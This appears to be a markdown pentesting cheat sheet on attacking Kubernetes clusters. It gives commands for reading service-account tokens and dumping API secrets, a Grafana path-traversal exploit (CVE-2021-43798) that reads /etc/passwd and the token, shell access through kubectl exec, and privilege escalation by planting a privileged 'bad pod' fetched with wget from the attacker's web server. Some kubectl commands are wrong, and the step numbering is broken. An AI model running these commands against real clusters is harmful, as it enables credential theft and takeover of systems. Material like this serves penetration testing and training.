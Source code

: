 ```yaml
---
title: Kubernetes Pentesting
desc: A portable, extensible, open source platform for managing containerized workloads and services, that facilitates both declarative configuration and automation. It uses port 8443.
tags: [6443, 8443, Container, Kubectl, Kubernetes]
alts: [JWT-Pentesting]
render_with_liquid: false
---
```


## Fetch Information from Kubernetes API Server

1. **Find Token**

    ```sh
    cat /var/run/secrets/kubernetes.io/serviceaccount/token
    ```

2. **Decode JWT Token**

    If you get the token, decode it using some tool.  

    **[JWT.io](https://jwt.io/){:target="_blank"}** is an useful online tool.  

3. **Fetch Information**

    ```sh
    # -k: insecure (HTTPS)
    curl -k -v -H "Authorization: Bearer <jwt-token>" https://<target-ip>:<target-port>/api/v1/namespaces/default/pods/
    curl -k -v -H "Authorization: Bearer <jwt-token>" https://<target-ip>:<target-port>/api/v1/namespaces/default/secrets/
    ```

<br />

## Interact with Kubernetes API Server

1. **Create a Service Account**

    ```sh
    # Create a ServiceAccount
    kubectl serviceaccount api-explorer
    # Bind the ClusterRole to the ServiceAccount
    # eg. namespace: default
    kubectl create rolebinding api-explorer:log-reader --clusterrole log-reader --serviceaccount default:api-explorer 
    ```

2. **Check Your Permission**

    ```sh
    kubectl auth can-i --list
    # /var/run/secrets/kubernetes.io/serviceaccount/token
    kubectl auth can-i --list --token=<JWT>
    ```

3. **List All Pods**

    ```sh
    kubectl get pods
    ```

4. **List All Secrets**

    ```sh
    kubectl get secrets

    # Get the specific secret
    kubectl get secret <secret-name>
    # Get the specific secret to output json
    kubectl get secret <secret-name> -o 'json'

    # List all data contained in the specific secret
    kubectl describe secret <secret-name>
    ```

5. **Get the Token (JWT) of the Service Account Running a Pod**

    ```sh
    cat /var/run/secrets/kubernetes.io/serviceaccount/token
    ```

<br />

## Grafana Exploiting

Some Grafana versions are vulnerable to Path Traversal.  

Kubernetes creates environment variables by default.

1. **Check Environment Variables on the Target Machine**

    ```sh
    env
    ```

    If you got the GRAFANA environment like the following, the Grafana service is running on the cluster.  

    ```
    GRAFANA_SERVICE_HOST=10.108.133.228
    GRAFANA_PORT=tcp://10.108.133.228:3000
    GRAFANA_PORT_3000_TCP=tcp://10.108.133.228:3000
    ```

2. **Access the Grafana Dashboard**

    You can access the service at **http://<grafana-ip>:<grafana-port>**.  

2. **Get the JWT of the Service Account**

    Using Path Traversal (CVE-2021-43798).

    ```sh
    curl --path-as-is http://<grafana-ip>:<grafana-port>/public/plugins/alertlist/../../../../../../../../etc/passwd
    ```

    Get the token (JWT) of the service account.

    ```sh
    curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
    ```

3. **Decode the JWT and Get Sensitive Information**

    See **[JWT Pentesting](./JWT-Pentesting){:target="_blank"}**.
    

4. **Check Your Permission of This Service**

    Using the JWT, you should get permissions.

    ```sh
    kubectl auth can-i --list --token=<Grafana-JWT>

    # List pods
    kubectl get pods --token=<JWT>
    ```

5. **Get a Shell on the Grafana Pod**

    ```sh
    kubectl exec -it <grafana-pod-name> --token=<Grafana-JWT> -- /bin/bash
    ```

## Privilege Escalation using Bad Pods

    Reference: [everything-allowed-exec-pod.yaml](https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml){:target="_blank"}

1. **Download the Bad Pod**

    At first, you need to download the bad pod on your local machine.

    ```sh
    wget https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml -O privesc.yaml
    ```

    Then start web server to allow the target machine to get this bad pod.

    ```sh
    python3 -m http.server 8000
    ```

3. **Trasfer the Bad Pod to the Target Machine**

    On the target machine, download the bad pod from your local machine.

    ```sh
    wget http://<your-local-ip>:8000/privesc.yaml
    ```

4. **Create the Pod**

    ```sh
    # Create the pod
    kubectl auth apply -f privesc.yaml --token=<JWT>
    
    # List all pods
    kubectl get pods --token=<JWT>
    ```

5. **Get a Shell**

    ```sh
    kubectl exec -it everything-allowed-exec-pod --token=<JWT> -- /bin/bash
    ```
